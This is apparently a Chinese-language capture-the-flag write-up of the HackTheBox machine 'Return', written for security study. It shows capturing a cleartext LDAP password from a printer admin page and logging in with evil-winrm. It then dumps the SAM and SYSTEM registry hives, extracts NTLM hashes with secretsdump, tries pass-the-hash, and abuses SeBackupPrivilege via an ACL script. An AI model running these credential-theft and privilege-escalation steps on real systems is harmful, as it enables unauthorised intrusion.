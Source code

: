 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (30).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (27).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (29).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (29).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，以为是网络原因登录不成功，但换了时间尝试多次发现该账户应该是不能用hash进行登录：

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```

<figure><img src="../../.gitbook/assets/21 (14).png" alt=""><figcaption></figcaption></figure>

* 因此重新搜索关于SeBackupPrivilege的漏洞利用脚本，发现Acl-FullControl.ps1脚本适用于SeBackupPrivilege提权，它是在当前用户的权限下，修改指定路径的访问控制列表(ACL)，给低权限用户添加高权限，赋予它完全的控制权，从而达到提权的效果。
* 该命令将当前的svc-printer用户的访问控制权指向到c:\users\administrator\，执行成功的话就意味着我们对这个目录及其内容有完全控制权：

```powershell
Import-module .\Acl-FullControl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
```

<figure><img src="../../.gitbook/assets/22 (14).png" alt=""><figcaption></figcaption></figure>

* 上传脚本，并执行：

<figure><img src="../../.gitbook/assets/23 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}

